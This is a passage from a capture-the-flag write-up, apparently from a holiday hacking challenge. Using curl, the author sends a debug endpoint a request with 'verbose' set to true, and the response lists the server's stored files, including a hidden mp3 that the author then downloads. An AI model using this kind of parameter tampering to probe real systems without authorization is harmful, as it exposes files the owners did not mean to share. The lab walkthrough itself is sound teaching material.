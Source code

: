 Great, it seems we got a response back and the parameters work. I also noticed that there was one more parameter called `verbose` and it's set to __false__. Let's see what happens when we set it to __true__.

```console
root@kali:~# curl -s -H "Content-Type: application/json" -d '{"date": "20170101010101", "udid": "123456789", "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile", "freemem": "1000", "verbose": true}' http://dev.northpolewonderland.com/index.php | python -mjson.tool
{
    "date": "20170101222541",
    "date.len": 14,
    "filename": "debug-20170101222541-0.txt",
    "filename.len": 26,
    "files": [
        "debug-20161224235959-0.mp3",
        "debug-20170107221952-0.txt",
        "debug-20170107222028-0.txt",
        "debug-20170107222334-0.txt",
        "debug-20170107222359-0.txt",
        "debug-20170107222450-0.txt",
        "debug-20170107222541-0.txt",
        "index.php"
    ],
    "request": {
        "date": "20170101010101",
        "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
        "freemem": "1000",
        "udid": "123456789",
        "verbose": true
    },
    "status": "OK",
    "status.len": "2"
}
```

Awesome! It looks like the response came back with additional information on files stored on the website, one of them being an mp3 file!

Let’s navigate to [http://dev.northpolewonderland.com/debug-20161224235959-0.mp3](http://dev.northpolewonderland.com/debug-20161224235959-0.mp3) and we should be able to download out next mp3 file!

<a href="/images/hh32.png"><img src="/images/hh32.png"></a>
